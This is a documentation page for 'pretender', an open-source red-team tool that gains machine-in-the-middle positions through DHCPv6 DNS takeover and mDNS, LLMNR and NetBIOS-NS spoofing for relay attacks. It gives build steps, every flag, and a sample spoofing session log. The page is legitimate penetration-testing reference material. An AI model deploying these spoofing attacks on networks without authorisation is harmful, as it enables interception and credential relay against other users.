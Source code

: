 ```yaml
---
title : "Pretender"
# pre : ' '
description : "Your MitM sidekick for relaying attacks featuring DHCPv6 DNS takeover as well as mDNS, LLMNR and NetBIOS-NS spoofing."
date : 2022-12-27T16:58:33+01:00
# hidden : true
# draft : true
weight : 0
# tags : ['']
---
```


## Pretender

Your MitM sidekick for relaying attacks featuring DHCPv6 DNS takeover as well as mDNS, LLMNR and NetBIOS-NS spoofing.

`pretender` is a tool developed by RedTeam Pentesting to obtain machine-in-the-middle positions via spoofed local name resolution and DHCPv6 DNS takeover attacks. `pretender` primarily targets Windows hosts, as it is intended to be used for relaying attacks but can be deployed on Linux, Windows and all other platforms Go supports. Name resolution queries can be answered with arbitrary IPs for situations where the relaying tool runs on a different host than `pretender`. It is designed to work with tools such as [Impacket's](https://github.com/SecureAuthCorp/impacket) `ntlmrelayx.py` and [krbrelayx](https://github.com/dirkjanm/krbrelayx) that handle the incoming connections for relaying attacks or hash dumping.

Read our [blog post](https://blog.redteam-pentesting.de/2022/introducing-pretender/) for more information about DHCPv6 DNS takeover, local name resolution spoofing and relay attacks.

## Installation

```plain
git clone https://github.com/RedTeamPentesting/pretender
cd pretender
go build
```

## Usage

```plain
./pretender [OPTIONS]
```

## Flags

```plain
  -i, --interface string           Interface to bind on, supports auto-detection by IPv4 or IPv6
  -4, --ip4 ip                     Relay IPv4 address with which queries are answered, supports auto-detection by interface or IPv6
  -6, --ip6 ip                     Relay IPv6 address with which queries are answered, supports auto-detection by interface or IPv4
      --soa-hostname string        Hostname for the SOA record (useful for Kerberos relaying)
      --no-dhcp-dns                Disable DHCPv6 DNS takeover attack (DHCPv6 and DNS)
      --no-dhcp                    Disable DHCPv6 spoofing
      --no-dns                     Disable DNS spoofing
      --no-ra                      Disable router advertisements
      --no-mdns                    Disable mDNS spoofing
      --no-netbios                 Disable NetBIOS-NS spoofing
      --no-llmnr                   Disable LLMNR spoofing
      --no-lnr                     Disable local name resolution spoofing (mDNS, LLMNR, NetBIOS-NS)
      --no-ipv6-lnr                Disable mDNS and LLMNR via IPv6 (useful with allowlist or blocklist)
      --spoof strings              Only spoof these domains, if domain starts with a dot, all subdomains with match (allowlist)
      --dont-spoof strings         Do not spoof these domains, if domain starts with a dot, all subdomains with match (blocklist)
      --spoof-for hosts            Only spoof DHCPv6 and name resolution for these hosts (allowlist of IPs or hostnames)
      --dont-spoof-for hosts       Do not spoof DHCPv6 and name resolution for these hosts (blocklist of IPs or hostnames)
      --spoof-types types          Only spoof these query types (A, AAA, ANY, SOA, all types are spoofed if empty)
      --ignore-nofqdn              Ignore DHCPv6 messages where the client did not include its FQDN (useful with allowlist or blocklists)
      --dry                        Do not spoof name resolution at all, only log queries
  -t, --ttl duration               Time to live for name resolution responses (default 1m0s)
      --lease-lifetime duration    DHCPv6 IP lease lifetime (default 1m0s)
      --router-lifetime duration   Router lifetime specified in router advertisements (default 3m0s)
      --ra-period duration         Time period between router advertisements (default 3m0s)
      --stop-after duration        Stop running after this duration
  -v, --verbose                    Print debug information
      --no-color                   Disables output styling
      --no-timestamps              Disables timestamps in the output
  -l, --log file                   Log file name
      --version                    Print version information
      --no-host-info               Do not gather host information
      --hide-ignored               Do not log ignored queries
      --redirect-stderr            Redirect stderr to stdout
      --interfaces                 List interfaces and their addresses (the other options have no effect, except for --no-color)
```

## Examples

```plain
$ sudo ./pretender -i eth1 --no-ra
Pretender by RedTeam Pentesting built from git commit 69d85ac239
Listening on interface: eth1
IPv4 relayed to: 10.10.20.50
IPv6 relayed to: fe80::e1d8:cf1d:5df3:a7f5

16:50:19 [DHCPv6] listening via UDP on [ff02::1:2%eth1]:547
16:50:19 [mDNS] listening via UDP on [ff02::fb%eth1]:5353
16:50:19 [DNS] listening via TCP on [fe80::e1d8:cf1d:5df3:a7f5%eth1]:53
16:50:19 [mDNS] listening via UDP on 224.0.0.251:5353
16:50:19 [DNS] listening via UDP on [fe80::e1d8:cf1d:5df3:a7f5%eth1]:53
16:50:19 [LLMNR] listening via UDP on [ff02::1:3%eth1]:5355
16:50:19 [NetBIOS] listening via UDP on 10.10.20.255:137
16:50:19 [LLMNR] listening via UDP on 224.0.0.252:5355
16:50:20 [DHCPv6] responding to SOLICIT from fe80::7270:8089:988d:b114 (cl01.offsec.nl) by assigning IPv6 "fe80::8000:800:277e:5926"
16:50:20 [DHCPv6] responding to REQUEST from fe80::7270:8089:988d:b114 (cl01.offsec.nl) by assigning DNS server and IPv6 "fe80::8000:800:277e:5926"
16:50:21 [mDNS] "CL01.local" (ANY) queried by fe80::7270:8089:988d:b114 (cl01.offsec.nl)
16:50:21 [LLMNR] "CL01" (ANY) queried by 10.10.20.61 (cl01.offsec.nl)
16:50:21 [mDNS] "CL01.local" (ANY) queried by 10.10.20.61 (cl01.offsec.nl)
16:50:21 [LLMNR] "CL01" (ANY) queried by fe80::7270:8089:988d:b114 (cl01.offsec.nl, 10.10.20.61)
16:50:21 [mDNS] "CL01.local" (ANY) queried by 10.10.20.61 (cl01.offsec.nl)
16:50:21 [mDNS] "CL01.local" (ANY) queried by fe80::7270:8089:988d:b114 (cl01.offsec.nl, 10.10.20.61)
16:50:21 [LLMNR] "CL01" (ANY) queried by 10.10.20.61 (cl01.offsec.nl)
16:50:21 [LLMNR] "CL01" (ANY) queried by fe80::7270:8089:988d:b114 (cl01.offsec.nl, 10.10.20.61)
16:50:21 [mDNS] "CL01.local" (ANY) queried by fe80::7270:8089:988d:b114 (cl01.offsec.nl, 10.10.20.61)
16:50:21 [mDNS] "CL01.local" (ANY) queried by 10.10.20.61 (cl01.offsec.nl)
16:50:21 [LLMNR] "CL01" (ANY) queried by 10.10.20.61 (cl01.offsec.nl)
16:50:21 [LLMNR] "CL01" (ANY) queried by fe80::7270:8089:988d:b114 (cl01.offsec.nl, 10.10.20.61)
16:50:21 [DNS] "v10.events.data.microsoft.com" (A) queried by fe80::8000:800:277e:5926 (10.10.20.61, PCSSystemtec)
```

## URL list

- [Github.com - Pretender](https://github.com/RedTeamPentesting/pretender)
